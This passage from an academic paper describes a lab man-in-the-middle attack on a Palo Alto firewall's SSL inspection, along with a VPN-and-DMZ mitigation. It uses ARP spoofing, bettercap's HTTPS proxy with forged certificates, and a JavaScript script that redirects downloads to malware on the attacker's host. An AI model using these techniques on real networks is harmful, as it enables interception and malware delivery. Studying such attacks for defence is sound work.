 
\includegraphics[height=20.5cm]{img/arp_spoof_flow.png}
 % arp_spoof_flow.png: 1269x2097 px, 72dpi, 44.77x73.98 cm, bb=0 0 1269 2097
 \caption{\glsxtrshort{arp} Spoofing Flow Diagram}
 \label{fig: Flow ARP}
\end{figure}


\newpage

Here are some packets captured by Wireshark\cite{wireshark} during the attack:

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13cm]{img/wireshark_request_mac.png}
 % wireshark_request_mac.png: 816x55 px, 96dpi, 21.59x1.46 cm, bb=0 0 612 41
 \caption{\glsxtrshort{arp} Request Packets View: The attacker creates a broadcast \glsxtrshort{arp} request to get the Victim and Gateway's MAC Addresses}
 \label{fig: ARP Request wireshark}
\end{figure}

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13cm]{img/wireshark_arp_spoof.png}
 % wireshark_arp_spoof.png: 800x114 px, 96dpi, 21.16x3.02 cm, bb=0 0 600 85
 \caption{\glsxtrshort{arp} Spoof Packets View: The attacker sends an \glsxtrshort{arp} packet containing a spoofed MAC Address for both the gateway and the victim}
 \label{fig: ARP Spoof Wireshark}
\end{figure}

After receiving those packets the victim's \glsxtrshort{arp} table will be changed accordingly:

\begin{figure}[!hb]
\centering
 \subfloat[\glsxtrshort{arp} Table before Spoofing\label{fig: spoof-before}]{
 
\includegraphics[width=7cm]{img/arp_spoof_before.png}}
 \vspace{0.5cm}
 \subfloat[\glsxtrshort{arp} Table after Spoofing\label{fig: spoof-after}]{
\includegraphics[width=7cm]{img/arp_spoof_after.png}}
 \caption{The result of \glsxtrshort{arp} Spoofing/Poisoning}\label{fig: spoof-before-after}
\end{figure}

Since the Gateway now points to the Attacker machine, the traceroute output is also changed:

\begin{figure}[!hb]
 \centering
 \subfloat[Traceroute before \glsxtrshort{arp} Spoof\label{fig: traceroute-before}]{
 
\includegraphics[width=7cm]{img/traceroute_before.png}}
 \vspace{0.5cm}
  \subfloat[Traceroute after \glsxtrshort{arp} Spoof\label{fig: traceroute-after}]{
 
\includegraphics[width=7cm]{img/traceroute_after.png}}
\end{figure}

\newpage


\subsection{Setting up the \glsxtrshort{https} Proxy}

After starting \verb|bettercap| as root, we can start using the \glsxtrshort{https} Proxy tool, the available options are:

\begin{itemize}
 \item \verb|https.port| : \glsxtrshort{https} port to redirect when the proxy is activated. (default=443)
 \item \verb|https.proxy.address| : Address to bind the \glsxtrshort{https} proxy to. \\ (default=<interface address>)
 \item \verb|https.proxy.blacklist| : Comma separated list of hostnames to skip while proxying (wildcard expressions can be used). (default=)
 \item \verb|https.proxy.certificate| : \glsxtrshort{https} proxy certification authority \glsxtrshort{tls} certificate file. (default=~/.bettercap-ca.cert.pem)
 \item \verb|https.proxy.certificate.bits| : Number of bits of the RSA private key of the generated \glsxtrshort{https} certificate. (default=4096)
 \item \verb|https.proxy.certificate.commonname| : Common Name field of the generated \glsxtrshort{https} certificate. (default=Go Daddy Secure Certificate Authority - G2)
 \item \verb|https.proxy.certificate.country| : Country field of the generated \glsxtrshort{https} certificate. (default=US)
 \item \verb|https.proxy.certificate.locality| : Locality field of the generated \\ \glsxtrshort{https} certificate. (default=Scottsdale)
 \item \verb|https.proxy.certificate.organization| : Organization field of the generated \\ \glsxtrshort{https} certificate. (default=GoDaddy.com, Inc.)
 \item \verb|https.proxy.certificate.organizationalunit| : Organizational Unit field of the generated \glsxtrshort{https} certificate. \newline(default=https://certs.godaddy.com/repository/)
 \item \verb|https.proxy.injectjs| : URL, path or javascript code to inject into every HTML page. (default=)
 \item \verb|https.proxy.key| : \glsxtrshort{https} proxy certification authority \glsxtrshort{tls} key file. (default=~/.bettercap-ca.key.pem)
 \item \verb|https.proxy.port| : Port to bind the \glsxtrshort{https} proxy to. (default=8083)
 \item \verb|https.proxy.redirect| : Enable or disable port redirection with iptables. (default=true)
 \item \verb|https.proxy.script| : Path of a proxy JS script. (default=)
 \item \verb|https.proxy.sslstrip| : Enable or disable \glsxtrshort{ssl} stripping. (default=false)
 \item \verb|https.proxy.whitelist| : Comma separated list of hostnames to proxy if the blacklist is used (wildcard expressions can be used). (default=)
\end{itemize}

As mentioned earlier in the paper, the certificate can be forged meticulously to look like a big corporation's one.

To host an \glsxtrshort{https} Proxy, bettercap makes it so once https packets (\glsxtrshort{tcp} port: 443) pass through the machine, they will be redirected to a self hosted proxy where the \glsxtrshort{html} page will be decrypted, analysed (in this case through JavaScript), optionally modified, re-encrypted using fake certificates and then being sent to the client transparently.

\newpage

\subsubsection{Developing the Script}

Through the \verb|https.proxy.script| option, as cited earlier, it is possible to develop a small JavaScript code that interacts with various proxy functions\cite{proxy-functions}:

\begin{lstlisting}[language=JavaScript]{}
 // called when the script is loaded
function onLoad() {

}

// called when the request is received by the proxy
// and before it is sent to the real server.
function onRequest(req, res) {

}

// called when the request is sent to the real server
// and a response is received
function onResponse(req, res) {

}

// called every time an unknown session command is typed,
// proxy modules can optionally handle custom commands this way:
function onCommand(cmd) {
    if( cmd == "test" ) {
        /*
         * Custom session command logic here.
         */

        // tell the session we handled this command
        return true
    }
}
\end{lstlisting}

\newpage

In this case in order to bypass the Malware Detection in \glsxtrshort{panos}, a small script was created that replaces the URL of the malware on the external server with one of the same malware but located on the attacker's machine.

\begin{lstlisting}[language=JavaScript]{}
function onResponse(req, res){
        var body = res.ReadBody();
        //Checks if there's a link to eicar.com
        if ( body.indexOf('<a href="./eicar.com">') != -1){
            res.Body = body.replace('<a href="./eicar.com">',
            '<a href="http://192.168.3.10/eicar2.com">');
        }
}
\end{lstlisting}


\begin{figure}[h!]
 \centering
 
\includegraphics[width=13cm]{img/script_flowchart.png}
 % script_flowchart.png: 723x497 px, 96dpi, 19.13x13.15 cm, bb=0 0 542 373
 \caption{The Script's Flowchart}
 \label{fig: flowchart}
\end{figure}

\newpage

\subsubsection{Testing the Proxy}

Once the script has been written, to load it into the \verb|https.proxy| the command \verb|set https.proxy.script /file/location/script.js`| is used in the bettercap shell and the proxy itself is started through the \verb|https.proxy on| command.

When loaded, once the client connects to the web server the \glsxtrshort{ssl}/\glsxtrshort{tls} certificate will also have changed.

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13cm]{img/spoofed_certificate.png}
 % spoofed_certificate.png: 685x270 px, 96dpi, 18.12x7.14 cm, bb=
 \caption{The compromised website along with its forged Certificate}
 \label{fig: spoofed-certificate}
\end{figure}

And by Clicking the link the download will start as envisioned.

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13cm]{img/after_proxy.png}
 % after_proxy.png: 748x468 px, 96dpi, 19.79x12.38 cm, bb=
\end{figure}

This way the victim is downloading a malware by completely bypassing the Malware Detection system in the firewall.


\newpage

\section{Mitigating the Attack}

Since the attacker is already inside the network, mitigating it is not easy but definitely possible.

The quickest but most unreliable way to do it would be letting the user check the validity of the certificates.

In case of self-signed certificates we can in fact observe that most modern Internet Browsers will detect that something is wrong and warn the user.

The problem is that people are not infallible and can mistake the certificate as a trusted one, especially if they recognize the name of the company they work for or some other big companies.

Not to mention that small companies might generate self-signed certificates as well causing the browser warning to pop up even when it's safe, making it even harder for the user to know what's right and wrong.

\begin{figure}[!hb]
 \centering
 \subfloat[\glsxtrshort{mitm} Warning when issued by the Firewall\label{fig: mitm-firewall}]{
 
\includegraphics[width=7cm]{img/MITM_DETECTED_SAFE.png}}
 \vspace{0.5cm}
  \subfloat[\glsxtrshort{mitm} Warning when issued by an Attacker\label{fig: mitm-attacker}]{
 
\includegraphics[width=7cm]{img/MITM_Detected.png}}
 \caption{The ``not-so-different'' warning page from Mozilla Firefox when connecting to a \glsxtrshort{ssl} Inspected website, on the left the safe one issued by the firewall, on the right the malicious one from the attacker}
\end{figure}

\newpage

A more general approach to mitigate these kind of attacks would be using a Secure \glsxtrshort{vpn} server, either hosted by the Firewall itself (Palo Alto provides GlobalProtect), or by having it hosted on a \glsxtrshort{dmz}.

A \glsxtrshort{dmz} network, also referred as demilitarized area, is used as a buffer network, it's usually used to open services to the Internet and separate the internal network from the outside even more, in this case a Secure \glsxtrshort{vpn}Server.

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13.5cm]{img/Network_Plan_DMZ.png}
 % Network_Plan_DMZ.png: 491x486 px, 72dpi, 17.32x17.15 cm, bb=0 0 491 486
 \caption{The new Network Plan, it includes a \glsxtrshort{dmz} area with a \glsxtrshort{vpn} within it. The \glsxtrshort{vpn}'s access to the internet is provided by another Palo Alto Firewall where \glsxtrshort{ssl} Inspection is enabled. \glsxtrshort{ssl} Inspection must be provided on the external Firewall as the internal one can't natively decrypt \glsxtrshort{https} connections since the traffic coming from the client is encrypted by the \glsxtrshort{vpn} server.}
 \label{fig: Network Plan DMZ}
\end{figure}

\newpage

This new configuration makes it also impossible for the internal attacker to target the \glsxtrshort{vpn} server (and thus replicating the attack once again) thanks to PanOS' Zone Protection feature which provides \glsxtrshort{ip} Spoofing detection:

\begin{figure}[h!]
 \centering
 
\includegraphics[width=13.5cm]{img/zone_protection.png}
 % zone_protection.png: 799x456 px, 96dpi, 21.14x12.06 cm, bb=0 0 599 342
 \caption{The Zone Protection feature of PanOS}
 \label{fig: Zone Protection}
\end{figure}

\newpage

\section{Setting up the mitigation}

After installing another firewall with the same procedure we used earlier in the paper, we need to host a Secure Server, in this case through OpenVPN.

OpenVPN is an Open Source \cite{openvpn} system that implements both client and server applications.

Since we have generated a \glsxtrshort{ca} earlier through \glsxtrshort{panos} we can export the private key and certificate in order to create a server and client certificates, which will be used for authentication.

As a means to create those certificates the Open Source tool Easy-RSA\cite{easyrsa} provided by OpenVPN has been used.

After generating a \glsxtrfull{pki} with the command \\
\verb|easyrsa init-pki|, we can put our glsxtrshort{panos} certificate and private key respectively in the \verb|pki/| and \verb|pki/private| folders. Once done, we can generate the server public/private keys with \verb|easyrsa gen-req vpnserver nopass|  and \\
\verb|easyrsa gen-req vpnclient nopass| (the \verb|nopass| directive means that we don't have to insert the password if we already have the certificate). Optionally if a trusted \glsxtrfull{pki} is available we can use that to sign those certificates.

We also need to create a Diffie-Hellman\cite{diffie-hellman} key (used in the key exchange process) with \verb|easyrsa gen-dh| and a \glsxtrshort{hmac}\cite{hmac} signature to strengthen the \glsxtrshort{tls} certificate integrity\cite{https://www.vultr.com/docs/how-to-create-an-openvpn-server-on-ubuntu-20-04/}

After that we just need to install those keys into the server, copy the server configuration file sample from \\
\verb|/usr/share/doc/openvpn/examples/sample-config-files/server.conf| (or\\ any corresponding doc folder for non Debian-based operating systems), modify it such that it points to the correct certificates and keys and since we want gateway redirection we also need to add the \\ \verb|push "redirect-gateway def1 bypass-dhcp"| directive. This way the client will use the \glsxtrshort{vpn} as a gateway instead of the internal Firewall.

In the client side, after having the client certificates installed, we can copy the client sample configuration file contained in the same folder as the server one, point the certificates to the correct location and modify the \verb|remote| argument to the \glsxtrshort{vpn}'s \glsxtrshort{ip} address.

\newpage


\begin{figure}[h!]
 \centering
 
\includegraphics[width=13.5cm]{img/VPN_inner_working.png}
 % VPN_inner_working.png: 601x692 px, 72dpi, 21.20x24.41 cm, bb=0 0 601 692
 \caption{A Representation of the data-flow when a client is connected through a \glsxtrshort{vpn} located in the \glsxtrshort{dmz}}
 \label{fig: Inner Workings}
\end{figure}


\newpage

\section{Testing the mitigation}

Once everything is set-up, we can start the OpenVPN server and client by going to a console and entering \verb|openvpn <configfile>|.

We now have an encrypted connection to the \glsxtrshort{dmz} of the network, outgoing packages will still be handled by the Palo Alto Firewall and thus able to be \glsxtrshort{ssl} decrypted but internal intruders that perform a \glsxtrshort{mitm} attack will only be able to see encrypted traffic as shown in fig: \ref{fig: wireshark-openvpn}

\begin{figure}[!hb]
 \centering
 \subfloat[The detected packets after \glsxtrshort{arp} spoofing while connected through OpenVPN\label{fig: wireshark-openvpn}]{
 
\includegraphics[width=13.5cm]{img/wireshark_after_vpn.png}}
 \vspace{0.5cm}
  \subfloat[The detected packets after \glsxtrshort{arp} spoofing without OpenVPN\label{fig: wireshark-novpnr}]{
 
\includegraphics[width=13.5cm]{img/wireshark_before_vpn.png}}
 \caption{The difference between OpenVPN encrypted packets and un-encrypted packets, both the payload and packet header are encrypted so the intruder won't be able to guess which service the client is using}
\end{figure}

As far as \glsxtrshort{ssl} Inspection goes, the traffic between the \glsxtrshort{vpn} the Firewall results to be exactly the same as when the client was interfacing directly to the Firewall but from another source, meaning that every Malware Protection feature has been conserved.

\chapter{Results and conclusions}

As shown in this paper, \glsxtrshort{ngfw} provide an excellent suite of tools that provide added security.

\glsxtrshort{ssl} Inspection makes it so that traffic can be inspected through the firewall, preventing threats and malware in virtually any setting, even on encrypted connections.

This however disables the confidentiality and data integrity aspect of \glsxtrshort{ssl} encrypted connections, shifting the trust from the server to the organization that manages the firewall.

It can also be used as a weak point for an attacker to pry on: by creating a \glsxtrshort{mitm} attack and forging/stealing a seemingly trustful certificate it's possible to interfere with communication between the client and the firewall and deploy malign payloads.

